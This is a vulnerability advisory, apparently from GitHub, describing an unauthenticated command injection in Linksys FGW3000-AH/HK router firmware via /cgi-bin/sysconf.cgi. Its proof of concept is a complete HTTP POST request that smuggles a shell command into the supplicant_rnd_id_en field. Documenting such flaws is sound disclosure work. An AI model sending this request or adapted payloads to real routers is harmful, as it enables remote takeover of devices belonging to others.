




# Information


**Vendor of the products:** Linksys Holdings, Inc.

**Vendor's website:** [Linksys | Networking & WiFi Technology](https://www.linksys.com/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** FGW3000-AH/FGW3000-HK

**Affected firmware version:** <=Ver. 1.0.17.000000

**Firmware download address:** [download]([Firmware and Documentation - Linksys Support](https://support.linksys.com/kb/section/57/))

# Overview

A serious command execution vulnerability was found in Linksys routers FGW3000-AH and FGW3000-HK. An attacker can make unauthorized requests through the route /cgi-bin/sysconf.cgi and execute commands by sending a specific POST request.

# Vulnerability details

When action=check_certmngr, the function sub_4153FC will be requested and processed




Command injection and command execution exist here



# POC

```
POST /cgi-bin/sysconf.cgi HTTP/1.1
Host: 192.168.122.150
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cache-Control: no-cache, no-store, must-revalidate
Pragma: no-cache
Expires: 0
X-Requested-With: XMLHttpRequest
Content-Length: 161
Origin: http://192.168.122.150
Connection: close
Referer: http://192.168.122.150/
Cookie: Secure; __guid=82765014.4196598859201601500.1743513625621.1406; langCookie=ui; Secure; page=undefined,mobile,0,0

page=ajax.asp&action=check_certmngr&cert_page=w&supplicant_password=a&supplicant_phase1=;bbb;&supplicant_phase2=;aaa;&supplicant_rnd_id_en=;ls -l /  >/www/1.txt;
```



